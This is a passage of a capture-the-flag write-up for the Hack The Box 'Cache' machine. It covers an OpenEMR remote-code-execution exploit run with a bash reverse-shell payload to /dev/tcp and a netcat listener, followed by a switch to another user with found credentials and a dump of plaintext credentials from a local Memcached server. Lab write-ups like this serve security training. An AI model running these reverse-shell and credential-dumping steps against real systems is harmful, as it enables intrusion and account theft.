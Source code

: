 *ippsec [video](https://www.youtube.com/watch?v=kfLU5-Eeyhw&t=3360s)*

`python openEMR-RCE.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/tun0/1337 0>&1'`

* this command specified in the Exploit itself
* it excute reverse shell and connect back to netcat on specified port
	
	`nc -nvlp 1337`

* I got an `www-data@cache:~$` shell

#### enumeration www-data

* `/etc/passwd` reviles that there is a use ash 
* use ash creds to `su` to user `ash:H@v3_fun`
* got  shell as ash user
* user ash have user flag

	  ash@cache:~$ cat user.txt

# Local Enumeration

* check network services

	  ash@cache:~$ netstat -tnlp
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State
	  tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN

* search for port `11211` found out that this is a Memcached server that running locally
* searching about Memcache on google i endup on a [hackingarticles.in](https://www.hackingarticles.in/penetration-testing-on-memcached-server/) blog post .

## dump Memcache data

* I use telnet to connect to Memcached server from ash user shell

	`ash@cache:~$ telnet 127.0.0.1 11211`

	  Trying 127.0.0.1...
	  Connected to 127.0.0.1.

	  stats slabs
	  STAT active_slabs 1

	  stats cachedump 1 0
	  ITEM user [5 b; 0 s]
	  ITEM passwd [9 b; 0 s]

	  get user
	  VALUE user 0 5
	  luffy
	  END

	  get passwd
	  VALUE passwd 0 9
	  0n3_p1ec3
	  END
